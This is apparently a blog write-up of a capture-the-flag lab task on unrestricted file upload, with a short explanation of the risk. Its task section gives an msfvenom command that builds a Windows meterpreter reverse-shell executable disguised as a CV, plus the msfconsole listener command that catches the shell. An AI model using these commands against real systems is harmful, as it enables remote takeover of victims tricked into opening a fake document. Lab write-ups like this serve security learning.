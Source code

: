 ```yaml
---
title: Post 15 - Reversing to go forwards
date: 2022-12-15
---
```

## Task 20, Day 15, <code>Secure Coding</code> Santa is looking for a Sidekick
Another security concern for web apps is insufficient input validation. Occurs when user-provided input is inherently trusted by the application. *I think I know where this is going.* SQL Injection, Cross Site Scripting, and Unrestricted File Upload stem from this issue. UFU can allow an attakcer to host and/or serve illegal content or leak sensitive information. Usually has two main paths:
- If attacker can retrieve the uploaded file it can lead to code execution if he uploads a file like a web shell.
- If the file is viewed by a user, then malware could be embedded that would execute on the user's workstation when they view it.

Even storing uploaded files outside the web root could pose a danger through local file inclusion vulns that could force the seb server itself to recover the file, allowing for RCE.

Since people will be looking at the files uploaded, and there's no restrictions on the file type uploaded, the people can be targeted with malware embedded files. 


### The Task
Gain flag from particular user's documents directory.

In this case, create a CV with a mlicious macro embedded using Metasploit. <code>msfvenom -p windows/x64/meterpreter.reverse_tcp LHOST=tun0 LPORT="Listening port" -f exe -o cv-username.exe</code> where tun0 is the listening (own) IP address and "Listening port" is random port number chosen to listen on.

Setup listener with <code>sudo msfconsole -q -x "use exploit/multi/handler; set PAYLOAD windows/x64/meterpreter/reverse_tcp; set LHOST tun0; set LPORT 'listening port'; exploit"</code> where tun0 and 'listening port' are same as previous step. 

Once person interacts folder the reverse shell is launched and digging around can commence. 

Flag captured, all questions answered. Even though several answers are just in the text, I might come back later to list methods of protection after the event is over.